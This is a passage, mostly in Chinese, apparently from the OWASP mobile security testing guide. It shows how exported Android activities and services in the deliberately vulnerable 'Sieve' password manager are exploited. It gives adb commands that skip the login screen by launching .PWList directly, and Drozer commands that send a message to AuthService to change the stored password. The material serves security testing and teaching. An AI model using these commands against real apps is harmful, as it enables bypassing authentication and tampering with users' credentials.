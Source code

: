 ```
  <!-- This activity is exported via the attribute "exported" -->
  <activity android:name=".PWList" android:exported="true" />
  <!-- Activities below are not exported -->
  <activity android:name=".SettingsActivity" />
  <activity android:name=".AddEntryActivity"/>
  <activity android:name=".ShortLoginActivity" />
  <activity android:name=".WelcomeActivity" />
  <activity android:name=".PINActivity" />
...
</manifest>
```

枚举易受攻击的密码管理器“Sieve”中的活动表明导出了以下活动：

- `.MainLoginActivity`
- `.PWList`
- `.FileSelectActivity`

使用以下命令启动活动：

```
# Start the activity without specifying an action or an category
$ adb shell am start -n com.mwr.example.sieve/.PWList
Starting: Intent { cmp=com.mwr.example.sieve/.PWList }

# Start the activity indicating an action (-a) and an category (-c)
$ adb shell am start -n "com.mwr.example.sieve/.MainLoginActivity" -a android.intent.action.MAIN -c android.intent.category.LAUNCHER
Starting: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=com.mwr.example.sieve/.MainLoginActivity }
```

由于`.PWList`此示例中直接调用了该活动，因此您可以使用它绕过保护密码管理器的登录表单，并访问密码管理器中包含的数据。

#### 服务[¶](https://mas.owasp.org/MASTG/Android/0x05h-Testing-Platform-Interaction/#services_1)

可以使用 Drozer 模块枚举服务`app.service.info`：

```
dz> run app.service.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.AuthService
    Permission: null
  com.mwr.example.sieve.CryptoService
    Permission: null
```

要与服务通信，您必须首先使用静态分析来识别所需的输入。

因为此服务是导出的，所以您可以使用该模块`app.service.send`与服务通信并更改存储在目标应用程序中的密码：

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
```
